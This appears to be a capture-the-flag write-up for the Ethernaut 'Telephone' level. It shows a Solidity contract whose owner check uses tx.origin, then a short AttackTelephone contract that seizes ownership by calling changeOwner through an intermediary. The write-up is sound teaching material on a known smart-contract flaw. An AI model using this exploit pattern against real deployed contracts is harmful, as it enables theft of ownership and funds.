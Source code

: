 ```yaml
---
description: tx.origin and msg.sender
---
```


# 4 - Telephone

Ethernaut Level4: [Telephone](https://ethernaut.openzeppelin.com/level/0x131c3249e115491E83De375171767Af07906eA36)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Goal of this level

* claim ownership of the contract

### What you should know before

* Difference between `tx.origin` and `msg.sender`\
  ``-> see [here](https://www.youtube.com/watch?v=mk4wDlVB4ro)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

`tx.origin` is the very first initiator's address of the transaction while\
`msg.sender` is the caller address that directly called the contract.

</details>

```solidity
contract AttackTelephone {
    Telephone telephone;

    constructor(Telephone _instanceAddr) {
        telephone = _instanceAddr;
    }

    function attack() external {
        telephone.changeOwner(tx.origin);
    }
}
```

In this problem, `tx.origin` will be your wallet address and `msg.sender` will be the address of `AttackTelephone` contract.

You just need to call `attack()` function.

Done! 😎

## Key Takeaway

* In most cases, it is not recommended to use `tx.origin` in terms of **security**.
